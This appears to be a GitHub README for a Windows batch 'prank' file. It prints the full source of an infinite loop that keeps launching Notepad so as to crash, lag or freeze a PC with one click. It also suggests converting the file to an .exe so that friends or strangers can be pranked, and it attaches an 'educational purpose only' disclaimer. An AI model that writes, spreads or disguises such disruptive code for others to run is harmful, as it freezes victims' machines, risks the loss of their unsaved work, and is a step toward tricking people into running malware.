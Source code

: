 # About:
a BATCH ( .bat ) file that can crash , lag or freezes your Windows PC & Laptop with one click! , 
 
# Screenshots:

<img src="./shots/file.png" /> 

# How to Stop it:

- CTRL+Alt+Delete Combo , Then Sign-out from your local account.
- Try to punch it with cmd and taskill
- Just delete the file

# How the file made:

- It's just a quick code that start notepad.exe with an infinity loop.

```
@echo off
 :top
 start %SystemRoot%\system32\notepad.exe
 GOTO top
``` 
# What OS can run it:
- Actually Only ** Windows ** and i can say we can run it in an ** Windows Vista ** and highter

# Why the repo named:
- Idk , .exe is a common filename extension denoting an executable file for Windows and for our community it's creepy things lol

# Can convert it to .exe:
- Yes and works fine and tested by me , you can use some tools like https://www.battoexeconverter.com/ 


# Note:
 - This tutorial is for educational purpose only. It shows how the we can get pranked by our freinds or someone unknown If anyone do any illegal activity then im not responsible for that.

